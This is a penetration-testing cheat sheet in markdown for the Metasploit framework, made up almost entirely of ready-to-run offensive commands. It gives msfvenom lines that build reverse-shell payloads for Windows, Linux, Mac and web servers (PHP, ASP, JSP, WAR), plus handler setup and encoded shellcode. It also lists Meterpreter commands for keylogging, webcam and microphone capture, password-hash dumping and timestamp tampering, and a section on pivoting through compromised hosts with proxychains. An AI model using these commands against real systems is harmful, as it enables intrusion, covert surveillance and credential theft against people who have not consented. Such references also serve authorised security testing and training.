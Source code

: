 ```yaml
---
title: Metasploit
category: Exploitation
order: 2
---
```


> **Useage** 

Start w/ RC File | <code> msfconsole -r meta_config </code>
Example RC file | <code> use exploit/multi/handler <br> set PAYLOAD windows/meterpreter/reverse_https <br> set LHOST 10.10.75.1 <br> set LPORT 8443 <br> set ExitOnSession false <br> exploit -j </code>
Run a rc file | <code> resource [location of RC file] </code>
location | <code> /opt/metasploit-4.11/ or /usr/share/framework2/ </code>
Exploit Location | <code> [location]/apps/pro/msf3/modules/exploits/ </code>
Payload Location | <code> [location]/apps/pro/msf3/modules/payloads </code>
run | <code> ./app/msfconssole </code>
Show Exploits | <code> show exploits </code>
Find Exploits | <code> search multi/handler or search android </code>
Info about Exploits | <code> info exploit/multi/handler </code>
Use Exploit | <code> use exploit/multi/handler </code>
Show Payloads | <code> show payloads </code>
Set Payload | <code> set PAYLOAD windows/shell/reverse_tcp </code>
Show Options on Payload | <code> show options </code>
Set Remote Hosts | <code> set RHOST 10.10.77.1 </code>
Set Local Hosts | <code> set LHOST 10.10.75.1 </code>
Exit on Session | <code> set ExitOnSession false </code>
Exploit as Job | <code> exploit -j </code>
list running jobs | <code> jobs </code>
List sessions | <code> sessions -l </code>
Interact with session | <code> session -i [n] </code>
Background a shell | <code> CTRL-Z </code>
Kill sessions  | <code> sessions -K </code>
Add a route | <code> route add [victim2 subnet] [netmask] [sid] </code> 
Errno:ECONNECT RESET | Reason: Windows Antivirus on client

> **Database** 

Commands | db_connect, db_disconnect, db_driver, db_status, db_export
Data | hosts, vulns, services, creds, loot, notes
Populate Hosts/Ports | use auxiliary/scanner/protscan/[tcp or syn] <br> use auxiliary/discovery/udp_sweep <br> db_nmap
Manually | hosts --add/--delete [host]<br> services --add/--delete -p [port] -r [proto] -s [name] [host1, host2,...] <br> notes --add/--delete -r [type] -n '[note text]' [host1, host2,...]
Import | db_import Nmap XML (-oX option) Nessus XMLv2 or XMLv2 (.nessus)
Hosts Help and Search | hosts -h <br> host -S linux -R (adds to RHOST)
Vulnearabilities | vulns -h <br> vulns -S RPC <br> vulns -P 445

> **MSFVenom**

Example | <code> msfvenom -p windows/shell/reverse_tcp LHOST=10.10.75.1 LPORT=8080 -f exe > /tmp/file.exe </code>
Shell Code| <code> msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d" </code>
Shell Code for Threaded Apps | <code> msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443 ExITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d"
Payloads | msfvenom -l payloads
Bad Characters | -b "\x00\x0a\x0d"
Help | msfvenom --help-formats

**Windows:**

Binary | <code> msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f exe > shell.exe </code>
Powershell Reflection | <code> msfvenom -p windows/meterpreter/reverse_https lhost=[attacker] lport=[attackerport] -f psh-reflection -a x86 > output.txt </code> 
Powershell Command | <code> msfvenom –a x86 –platform windows –p windows/meterpreter/reverse_https LHOST=[attackerIP] LPORT=[attackerPort] -e x86/shikata_ga_nai –f psh-cmd </code> 

**Linux:**

Binary | <code> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f elf > shell.elf </code>
Python | <code> msfvenom -p cmd/unix/reverse_python LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.py </code>
Bash | <code> msfvenom -p cmd/unix/reverse_bash LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.sh </code>
Perl | <code> msfvenom -p cmd/unix/reverse_perl LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.pl </code> 

**Mac:** 

Binary | <code> msfvenom -p osx/x86/shell_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f macho > shell.macho </code>

**Web:**

PHP | <code> msfvenom -p php/meterpreter_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.php <br> cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php </code>
ASP | <code>  msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f asp > shell.asp </code> 
JSP | <code> msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.jsp </code>
WAR | <code> msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f war > shell.war </code>

**Shellcode:**

Linux | <code> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f [language] </code>
Windows | <code> msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f [language] </code>
Mac | <code> msfvenom -p osx/x86/shell_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f [language] </code>

> **Meterpreter**

Get system info | sysinfo
Read Registry | reg
Change local directory | lcd
Download and Upload | download/upload
Make/Remove Directory | mkdir/rmdir
Edit a file | edit
Get the PID | getpid
Get the users ID | getuid
process list | ps
Drop to Command Prompt | Shell
Terminate Program | kill [pid]
Run a program | execute [program]
Change process | migrate [PID]
Display Routing Table | route
TCP relay | portfwd add -l 1111 -p 80 -r Target 2
Screen Shot | screenshot -p [filename.jpg]
List Webcams and take a picture | webcam_list, webcam_snap
Record Microphone | record_mic -d [Seconds]
Keylogger | keyscan_start, keyscan_stop, keyscan_dump
modules | data/meterpreter/
Load Module | use [last component of dll name]
priv modules | hashdump (SAM database), timestomp (MACE dates/times)
Port Scanner | meterpreter > load msfmap <br> meterpreter > msfmap

> **Route and Proxychain**

* Metasploit:

{% highlight bash %}
meterpreter > ipconfig 
Broadcom 440x 10/100 Integrated Controller - Packet Scheduler Miniport
Hardware MAC: 00:0b:db:1d:d3:2b
IP Address : 192.168.15.3
Netmask : 255.255.255.0

meterpreter > run arp_scanner -r 192.168.15.1/24
[*] ARP Scanning 192.168.15.1/24
[*] IP: 192.168.15.5 MAC d8:d3:85:ff:ff:ff
[*] IP: 192.168.15.5 MAC d8:d3:85:ff:ff:ff

route add 192.168.15.1 255.255.255.0 1

msf exploit(handler) > use auxiliary/scanner/portscan/tcp
msf auxiliary(tcp) > set RHOSTS 192.168.15.1
RHOSTS => 192.168.15.1
msf auxiliary(tcp) > set PORTS 1-1024
PORTS => 1-1024

msf auxiliary(tcp) > use auxiliary/server/socks4a
msf auxiliary(socks4a) > show options
msf auxiliary(socks4a) > set SRVHOST 159.203.173.82
SRVHOST => 159.203.173.82
msf auxiliary(socks4a) > run
{% endhighlight %}

* Proxy Chain Configuration:

{% highlight bash %}
vi /etc/proxychains.conf 
#comment out DNS
#Change sock4 to:
socks4 [IP of Attack Machine] [PORT of attach machine]

proxychains nmap -sT -P0 10.0.0.10

{% endhighlight %}

> **Resources**

* [Common Commands](https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/#common-metasploit-modules)






